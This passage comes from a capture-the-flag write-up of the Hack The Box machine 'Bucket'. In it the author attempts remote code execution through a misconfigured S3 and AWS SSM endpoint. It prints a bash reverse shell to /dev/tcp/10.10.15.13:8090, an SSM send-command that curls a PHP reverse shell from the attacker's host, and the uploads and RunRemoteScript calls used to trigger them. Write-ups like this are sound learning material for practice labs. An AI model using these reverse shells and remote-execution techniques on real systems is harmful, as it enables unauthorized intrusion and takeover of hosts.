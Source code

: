 
I initially tried finding my php shell at `http://bucket.htb/php-code-exec.php`, but then I remembered the link I had found in the page's source code was `"http://s3.bucket.htb/adserver/images/bug.jpg`, so this should be where my file was uploaded.  Unfortunately it appeared as if php code was not executable on this server.

![The folder is apparently cleaned up rather quickly, so you may have to upload it multiple times to test out everything.](/assets/markups/bucket-webshell.svg)

* https://docs.aws.amazon.com/systems-manager/latest/userguide/walkthrough-cli.html

```
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ aws ssm describe-instance-information \                                            
        --output text --query "InstanceInformationList[*]" --endpoint-url http://s3.bucket.htb
None                                                                                           
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ aws ssm send-command \
        --document-name "AWS-RunShellScript" \
        --endpoint-url http://s3.bucket.htb \
        --parameters '{"commands":["#!/bin/bash","echo test"]}'                                                                                                       
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ aws ssm send-command \
        --document-name "AWS-RunShellScript" \
        --endpoint-url http://s3.bucket.htb \
        --parameters '{"commands":["#!/bin/bash","curl http://10.10.15.13:8081/php-reverse-shell.php"]}'
```

I found a page that talked about executing shell scripts using the AWS CLI, but it did not seem to do anything in my tests on this server.

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.15.13/8090 0>&1'
```

Since PHP did not seem to execute, I decided to try uploading a bash reverse shell instead.

```
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ aws s3 cp --endpoint-url http://s3.bucket.htb ./test.sh s3://adserver
upload: ./test.sh to s3://adserver/test.sh
```

I uploaded it to the server.

```
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ aws ssm send-command \
    --document-name "AWS-RunRemoteScript" \
    --targets "Key=instanceids,Values=adserver" \
    --parameters '{"sourceType":["S3"],"sourceInfo":["{\"path\":\"http://s3.bucket.htb/adserver/test.sh\"}"],"commandLine":["test.sh"]}' --endpoint-url http://s3.bucket.htb
                                                                                                        
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ aws ssm send-command \
    --document-name "AWS-RunRemoteScript" \
    --targets "Key=instanceids,Values=adserver" \
    --parameters '{"sourceType":["S3"],"sourceInfo":["{\"path\":\"s3://adserver/test.sh\"}"],"commandLine":["test.sh"]}' --endpoint-url http://s3.bucket.htb
```